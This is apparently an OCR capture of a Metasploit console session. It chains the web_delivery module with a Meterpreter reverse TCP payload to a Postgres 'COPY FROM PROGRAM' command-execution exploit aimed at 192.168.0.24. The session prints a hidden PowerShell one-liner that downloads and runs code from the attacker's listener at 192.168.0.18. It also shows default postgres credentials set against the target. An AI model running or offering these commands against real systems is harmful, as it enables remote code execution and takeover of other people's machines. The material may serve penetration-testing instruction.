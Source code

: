
    Payload options (windows/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.0.18     yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       2   PSH


    msf exploit(multi/script/web_delivery) > exploit -j
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 192.168.0.18:4444
    [*] Using URL: http://0.0.0.0:8080/pUDD5sy8vTTD
    [*] Local IP: http://192.168.0.18:8080/pUDD5sy8vTTD
    [*] Server started.
    [*] Run the following command on the target machine:
    msf exploit(multi/script/web_delivery) > powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring('http://192.168.0.18:8080/pUDD5sy8vTTD');

    msf exploit(multi/script/web_delivery) > use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set DATABASE postgres
    DATABASE => postgres
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set RHOSTS 192.168.0.24
    RHOSTS => 192.168.0.24
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show options

    Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       COMMAND                     no        Send a custom command instead of a payload, use with powershell web delivery against windows
       DATABASE   postgres         yes       The database to authenticate against
       PASSWORD   postgres         no        The password for the specified username. Leave blank for a random password.
       RHOSTS     192.168.0.24     yes       The target address range or CIDR identifier
       RPORT      5432             yes       The target port (TCP)
       TABLENAME  msftesttable     yes       A table name that doesnt exist(To avoid deletion)
       USERNAME   postgres         yes       The username to authenticate as


    Exploit target:

       Id  Name
       --  ----
       0   Automatic
